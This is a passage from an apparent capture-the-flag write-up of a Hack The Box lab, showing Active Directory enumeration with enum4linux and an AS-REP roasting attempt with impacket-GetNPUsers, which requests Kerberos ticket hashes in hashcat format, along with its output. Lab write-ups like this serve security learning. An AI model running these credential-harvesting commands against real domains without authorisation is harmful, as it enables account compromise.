 
However, when trying to run `impacket-GetNPUsers` with those usernames, it's output stated that none of the accounts had the `UF_DONT_REQUIRE_PREAUTH` property set.

Then I tried enum4linux:

```bash
$ enum4linux -a 10.129.95.210 | tee enum4linux.out
```
![alt text](image-1.png)

Why didn't I find that user in any of my `ldapsearch` queries?

It happens that, in this case, since the server allows anonymous bind, it isn't necessary to get a list of usernames before running the `GetNPUsers` script. It already requests for the users who have that property set and then asks for the [TGTs](https://www.tarlogic.com/blog/how-kerberos-works/#Tickets).

![alt text](image-2.png)

Following with my solve, I included that username in my list and tried running the impacket script again.

```bash
$ impacket-GetNPUsers htb.local/ -dc-ip 10.129.36.185 -outputfile hash.txt -format hashcat -usersfile usernames-custom.txt
```
```
Impacket v0.12.0.dev1 - Copyright 2023 Fortra

[-] Kerberos SessionError: KDC_ERR_CLIENT_REVOKED(Clients credentials have been revoked)
[-] Kerberos SessionError: KDC_ERR_CLIENT_REVOKED(Clients credentials have been revoked)
[-] User FOREST$ doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User EXCH01$ doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] Kerberos SessionError: KDC_ERR_CLIENT_REVOKED(Clients credentials have been revoked)
[-] Kerberos SessionError: KDC_ERR_CLIENT_REVOKED(Clients credentials have been revoked)
[-] Kerberos SessionError: KDC_ERR_CLIENT_REVOKED(Clients credentials have been revoked)
[-] Kerberos SessionError: KDC_ERR_CLIENT_REVOKED(Clients credentials have been revoked)
```
